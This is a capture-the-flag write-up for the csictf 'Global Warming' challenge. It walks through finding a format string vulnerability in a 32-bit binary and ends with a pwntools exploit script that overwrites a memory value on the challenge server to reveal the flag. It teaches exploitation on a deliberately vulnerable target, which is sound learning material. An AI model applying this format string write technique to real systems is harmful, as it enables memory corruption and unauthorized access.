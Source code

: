 # Global Warming

## Global Warming

### Protections

Let's first run `checksec` to see what protections the file has:

```text
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Here we don't see many protection, there's only `NX`, which means no shellcode, and `ASLR` is likely enabled serverside

### Running the file

Running the file we see that we are first prompted for input, and then when we enter some, we are given an error message, and then terminates:

```text
$ ./global-warming
aaaa
aaaa
You cannot login as admin.
```

However it's important to note that our input is printed back to us, let's check for a format string exploit:

```text
$ ./global-warming
%x
f7f2d2c0
You cannot login as admin.
```

And it's fortunately vulnerable to format strings

### Reversing

Let's load this into ghidra to get some pseudo-c code

![main](../.gitbook/assets/globalwarmingmain.png)

Here we see it take input with fgets, where it makes a secure copy to the buffer \(reads 1024 into a 1024 big buffer\), so no buffer overflow here. It then calls `login` with this input, and another value that's unknown. Let's check in gdb what this is:

```text
   0x804928a <main+139>:        push   eax
   0x804928b <main+140>:        lea    eax,[ebx-0x1fd0]
   0x8049291 <main+146>:        push   eax
=> 0x8049292 <main+147>:        call   0x80491a6 <login>
   0x8049297 <main+152>:        add    esp,0x10
   0x804929a <main+155>:        mov    eax,0x0
   0x804929f <main+160>:        lea    esp,[ebp-0x8]
   0x80492a2 <main+163>:        pop    ecx
Guessed arguments:
arg[0]: 0x804a030 ("User")
arg[1]: 0xffffce90 ("aaaa\n")
```

Seems like a `user` variable that we might need to change. Let's decompile `login`:

![login](../.gitbook/assets/globalwarminglogin.png)

So it prints our input back to us without a format specifier, hence the format string exploit. Then it compares a variable to the value `0xb4dbabe3`, if equal, we get the flag

We can just assume that the previous value is that variable, but let's just check that with gdb:

```text
=> 0x80491c6 <login+32>:        mov    eax,DWORD PTR [ebx+0x2c]    <== moves the value into eax
   0x80491cc <login+38>:        cmp    eax,0xb4dbabe3              <== compares with the value
   0x80491d1 <login+43>:        jne    0x80491e7 <login+65>        <== jumps past the flag if they aren't equal
```

Here's the `if` statement if assembly. At this instruction:

```text
EBX: 0x804c000 --> 0x804bf00 --> 0x1
```

So the variable is stored at `0x804c02c`, not at `0x804a030`

### Exploit

To complete this challenge we need to use the format string exploit to _write_ the value `0xb4dbabe3` at that memory address \(with the use of `%n`\), so we can pass the check, and get the flag. Fortunately, pwntools has a feature to automate this for us:

`fmtstr_payload(offset, {address : value}`

Since we are writing at the address `0x804c02c`, `address` would be that, and `value` is `0xb4babe3`

We need to find the offset though, which is basically the format string offset where it shows us our input. For example, if I did:

```text
AAAA %6$x
```

And it returned:

```text
AAAA 41414141
```

`6` would be our offset

To find this, I used the below program to brute force it:

```python
from pwn import *

e = ELF("./global-warming")

for i in range(20):
    io = e.process(level="error")
    io.sendline("AAAA %%%d$lx"% i )
    print("%d - %s" % (i, io.recvline().strip()))
    io.close()
```

Running it:

```text
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
0 - b'AAAA %0$lx'
1 - b'AAAA f7f5f2c0'
2 - b'AAAA fbad2087'
3 - b'AAAA 80491b2'
4 - b'AAAA f7f20000'
5 - b'AAAA 804c000'
6 - b'AAAA ffd235b8'
7 - b'AAAA 8049297'
8 - b'AAAA 804a030'
9 - b'AAAA fff1e550'
10 - b'AAAA f7eff580'
11 - b'AAAA 8049219'
12 - b'AAAA 41414141'   <== this one
13 - b'AAAA 33312520'
14 - b'AAAA a786c24'
15 - b'AAAA fff92800'
16 - b'AAAA 3'
17 - b'AAAA 0'
18 - b'AAAA f7fc9000'
19 - b'AAAA f7d04748'
```

We find our offset is `12`. This makes our payload look like this:

```text
fmtstr_payload(12 , {0x804c02c : 0xb4dbabe3})
```

### Script

Our final exploit script now looks like this:

```python
from pwn import *

p = remote("chall.csivit.com", 30023)

value = 0xb4dbabe3

payload = fmtstr_payload(12 , {0x804c02c : value})

p.sendline(payload)

print(p.clean())
```

**csictf{n0**_**5tr1ng5**_**@tt@ch3d}**

